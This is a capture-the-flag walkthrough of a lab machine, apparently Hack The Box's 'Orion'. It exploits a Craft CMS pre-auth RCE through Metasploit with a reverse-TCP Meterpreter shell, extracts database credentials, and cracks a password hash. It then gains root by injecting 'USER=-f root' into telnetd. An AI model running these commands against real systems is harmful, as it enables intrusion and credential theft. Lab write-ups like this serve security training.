



## Reconnaissance

### Port Scanning 

As usual we start with port scanning to identify what services are running on the target .<br>
first a simple port scan .

```bash
$ sudo nmap -p- --min-rate 1000 -T4 -oN scans/ports.nmap 10.129.244.146
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-30 22:02 +0100
Warning: 10.129.244.146 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.244.146
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
10628/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 95.59 seconds
```
Okay so we have only two open ports `ssh` and `http`.<br>
Then a deeper scan .
```bash
$ sudo nmap -sC -sV -p 22,80 -oN scans/deepscan.nmap 10.129.244.146
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-30 22:10 +0100
Nmap scan report for 10.129.244.146
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.08 seconds
```
Nice! On port 80 we got a redirect to  `http://orion.htb`.
### Web enumeration 

Let's first add the domain we found to the hosts file.
```bash
$ echo "10.129.244.146 orion.htb" | sudo tee -a /etc/hosts
```
Now let's visit it in the browser.


The website appears to be a custom implementation built using **Craft CMS**, a flexible and powerful content management system.<br><br>
My next move was directory enumeration
```bash
$ ffuf -u http://orion.htb/FUZZ -w $SECLISTS/Discovery/Web-Content/raft-small-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/ 
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://orion.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1366ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2277ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 292ms]
index                   [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 1320ms]
p1                      [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 256ms]
p13                     [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 98ms]
p15                     [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 97ms]
p2                      [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 105ms]
p10                     [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 140ms]
p3                      [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 332ms]
p7                      [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 787ms]
p5                      [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 807ms]
:: Progress: [20115/20115] :: Job [1/1] :: 66 req/sec :: Duration: [0:24:38] :: Errors: 1 ::
```

## Initial Foothold : Shell as www-data

The most important endpoint discovered is `/admin`, while the P-prefixed entries appear to be garbage parameters that redirect to the index page.<br><br>

Visiting `http://orion.htb/admin` redirected us to a login page.


<br>

> **Note**
> We can see at the bottom the CMS version used Craft CMS 5.6.16.. This version is affected by CVE-2025-32432.



#### CVE-2025-32432

> Craft is a flexible, user-friendly CMS for creating custom digital experiences on the web and beyond. Starting from version 3.0.0-RC1 to before 3.9.15, 4.0.0-RC1 to before 4.14.15, and 5.0.0-RC1 to before 5.6.17, Craft is vulnerable to remote code execution. This is a high-impact, low-complexity attack vector. This issue has been patched in versions 3.9.15, 4.14.15, and 5.6.17, and is an additional fix for CVE-2023-41892.

In-depth analysis for this CVE could be found in this [article](https://french.opswat.com/blog/cve-2025-32432-unauthenticated-remote-code-execution-in-craft-cms) <br><br>

To exploit this vulnerability, I leveraged the Metasploit Framework, which provides a pre-built module for this specific CVE 
```bash
msf > search craftcms

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/craftcms_preauth_rce_cve_2025_32432  2025-04-14       excellent  Yes    Craft CMS Image Transform Preauth RCE (CVE-2025-32432)
   1    \_ target: PHP In-Memory                              .                .          .      .
   2    \_ target: Unix/Linux Command Shell                   .                .          .      .
   3  exploit/linux/http/craftcms_ftp_template                2024-12-19       excellent  Yes    Craft CMS Twig Template Injection RCE via FTP Templates Path
   4  exploit/linux/http/craftcms_unauth_rce_cve_2023_41892   2023-09-13       excellent  Yes    Craft CMS unauthenticated Remote Code Execution (RCE)
   5    \_ target: PHP                                        .                .          .      .
   6    \_ target: Unix Command                               .                .          .      .
   7    \_ target: Linux Dropper                              .                .          .      .


Interact with a module by name or index. For example info 7, use 7 or use exploit/linux/http/craftcms_unauth_rce_cve_2023_41892
After interacting with a module you can manually set a TARGET with set TARGET 'Linux Dropper'

msf > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ASSET_ID  63               yes       Existing asset ID
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni,
                                        socks4, socks5, socks5h, http
   RHOSTS    10.129.244.146   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-m
                                        etasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST     orion.htb        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.18      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory


View the full module info with the info, or info -d command.

msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > run
[*] Started reverse TCP handler on 10.10.14.18:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (45739 bytes) to 10.129.244.146
[*] Meterpreter session 3 opened (10.10.14.18:4444 -> 10.129.244.146:59604) at 2026-07-01 01:48:34 +0100

meterpreter >
```
After successfully obtaining shell access as the www-data user, I examined the environment variables to identify sensitive information
```bash
www-data@orion:~/html/craft/config$ env
env
CRAFT_ENVIRONMENT=dev
CRAFT_DB_PORT=3306
CRAFT_APP_ID=CraftCMS--67912ad2-1f1b-4993-bfec-e64daa5c23ff
PWD=/var/www/html/craft/config
PRIMARY_SITE_URL=http://orion.htb/
CRAFT_DB_DATABASE=orion
HOME=/var/www
CRAFT_DB_TABLE_PREFIX=
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
TERM=xterm
USER=www-data
SHLVL=1
CRAFT_DB_USER=root
LC_CTYPE=C.UTF-8
CRAFT_SECURITY_KEY=RRS86F6i2JQKdC6kfEI7frVxA47WVMx8
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DB_SCHEMA=
_=/usr/bin/env
OLDPWD=/var/www/html/craft
www-data@orion:~/html/craft/config$
```
Successfully extracted database credentials: `root:SuperSecureCraft123Pass!`<br>

## Pivoting : Shell as adam
Checking the tables 
```bash
www-data@orion:~/html/craft/config$ mysql -h 127.0.0.1 -u root -p'SuperSecureCraft123Pass!' -e "use orion;show tables;"
mysql -h 127.0.0.1 -u root -p'SuperSecureCraft123Pass!' -e "use orion;show tables;"
+----------------------------+
| Tables_in_orion            |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| assets_sites               |
| authenticator              |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elementactivity            |
| elements                   |
| elements_bulkops           |
| elements_owners            |
| elements_sites             |
| entries                    |
| entries_authors            |
| entrytypes                 |
| fieldlayouts               |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| migrations                 |
| plugins                    |
| projectconfig              |
| queue                      |
| recoverycodes              |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| sections                   |
| sections_entrytypes        |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| sso_identities             |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| webauthn                   |
| widgets                    |
+----------------------------+
www-data@orion:~/html/craft/config$
``` 
The most critical table for our purposes is the `users` table, which contains authentication credentials.<br>

Upon inspection, the database contains a single administrative user (admin) with the following password hash

```text
admin:$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS
```
Using John the Ripper with the RockYou wordlist, we attempt to crack the bcrypt hash
```bash
$ echo 'admin:$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS' > hash.txt

$ john hash --wordlist=$ROCKYOU
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
darkangel        (admin)
1g 0:00:00:10 DONE (2026-07-01 02:00) 0.09606g/s 69.16p/s 69.16c/s 69.16C/s miranda..marissa
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
With the cracked password (darkangel), we successfully establish SSH access as the adam user.<br><br>
Let's retrieve the user flag
```bash
adam@orion:~$ cat user.txt
17d6****************************
```
## Privilege Escalation

With access to the adam user account and the user flag secured, the next objective is to escalate privileges to obtain root access and retrieve the root flag. 
```bash
adam@orion:~$ sudo -l
[sudo] password for adam:
Sorry, user adam may not run sudo on orion.
```

Unfortunately, the adam user has no sudo privileges available. Let's examine the user's home directory and configuration files for potential attack vectors:

```bash
adam@orion:~$ ls -la
total 40
drwxr-x--- 5 adam adam 4096 Jul  1 01:35 .
drwxr-xr-x 3 root root 4096 May 12 08:15 ..
lrwxrwxrwx 1 root root    9 May  7 12:28 .bash_history -> /dev/null
-rw-r--r-- 1 adam adam  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 adam adam 3771 Jan  6  2022 .bashrc
drwx------ 3 adam adam 4096 May 12 08:15 .cache
drwxrwxr-x 3 adam adam 4096 May 12 08:15 .config
drwxrwxr-x 3 adam adam 4096 May 12 08:15 .local
-rw-r--r-- 1 adam adam  807 Jan  6  2022 .profile
-rw-r----- 1 root adam   33 Jun 30 21:01 user.txt
-rw-rw-r-- 1 adam adam  166 Mar  6 13:34 .wget-hsts

adam@orion:~$ ls -la .config/composer/
total 20
drwxrwxr-x 2 adam adam 4096 May 12 08:15 .
drwxrwxr-x 3 adam adam 4096 May 12 08:15 ..
-rw-rw-r-- 1 adam adam   13 Mar  6 10:01 .htaccess
-rw-r--r-- 1 adam adam  799 Mar  6 09:43 keys.dev.pub
-rw-r--r-- 1 adam adam  799 Mar  6 09:43 keys.tags.pub
```

The home directory has no remarkable files to check . Next, let's check what network services are available on the system:

```bash
adam@orion:~$ ss -tuln
Netid       State        Recv-Q       Send-Q               Local Address:Port               Peer Address:Port       Process
udp         UNCONN       0            0                    127.0.0.53%lo:53                      0.0.0.0:*
udp         UNCONN       0            0                          0.0.0.0:68                      0.0.0.0:*
tcp         LISTEN       0            4096                 127.0.0.53%lo:53                      0.0.0.0:*
tcp         LISTEN       0            10                       127.0.0.1:23                      0.0.0.0:*
tcp         LISTEN       0            511                        0.0.0.0:80                      0.0.0.0:*
tcp         LISTEN       0            128                        0.0.0.0:22                      0.0.0.0:*
tcp         LISTEN       0            80                       127.0.0.1:3306                    0.0.0.0:*
tcp         LISTEN       0            128                           [::]:22                         [::]:*
```

Interestingly, there's a telnet daemon listening on port 23 (127.0.0.1:23). This is a potential privilege escalation vector. I tried the same ssh creds on it:

```bash
adam@orion:~$ telnet 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.

Linux 5.15.0-177-generic (orion) (pts/2)

orion login: adam
Password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Jul  1 01:36:51 AM UTC 2026

  System load:  0.0               Processes:             231
  Usage of /:   80.2% of 5.81GB   Users logged in:       1
  Memory usage: 15%               IPv4 address for eth0: 10.129.244.146
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jul  1 01:16:07 UTC 2026 from localhost on pts/2
adam@orion:~$
```

The telnet connection was successful, allowing authentication. Now let's check the telnet utility version to identify potential vulnerabilities:

```bash
adam@orion:~$ telnet --version
telnet (GNU inetutils) 2.7
Copyright (C) 2025 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by many authors.
```

This version (2.7) is vulnerable to CVE-2026-24061 as shown in the reference image.



#### CVE-2026-24061

> CVE‑2026‑24061 is a critical authentication‑bypass vulnerability in GNU inetutils telnetd. During Telnet option negotiation, a remote client can inject environment variables using the NEW‑ENVIRON mechanism (RFC 1572). On vulnerable telnetd versions, the value of USER is forwarded unsanitized to the system login program; setting USER=-f root causes login to treat the session as “pre‑authenticated,” yielding an unauthenticated root shell. Because telnetd directly passes the USER environment variable as an argument to /bin/login, the injected value is interpreted as a command-line option rather than a username.

> **Note**
> you can read more about it in this [article](https://www.txone.com/blog/cve-2026-24061-gnu-inetutils-telnet-exploitation/)

### Exploitation

The vulnerability allows an attacker to send the value `-f root` in the USER environment variable. The telnetd daemon forwards this unsanitized value directly to the /bin/login program, which interprets the `-f` flag as a command-line option to force authentication as the specified user (root in this case), bypassing normal authentication checks entirely
```bash
adam@orion:~$ USER="-f root" telnet -a 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.

Linux 5.15.0-177-generic (orion) (pts/2)

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Jul  1 01:45:38 AM UTC 2026

  System load:  0.0               Processes:             231
  Usage of /:   80.2% of 5.81GB   Users logged in:       1
  Memory usage: 16%               IPv4 address for eth0: 10.129.244.146
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@orion:~# cat root.txt
f015****************************
```

### Summary

The Orion machine demonstrates a critical attack chain combining:
1. **CVE-2025-32432** (Craft CMS RCE) - Unauthenticated remote code execution via image transform feature
2. **Database Enumeration** - Extraction of credentials from the CMS database
3. **Hash Cracking** - Offline password recovery using standard tools
4. **CVE-2026-24061** (GNU inetutils Telnet) - Environment variable injection leading to authentication bypass and privilege escalation
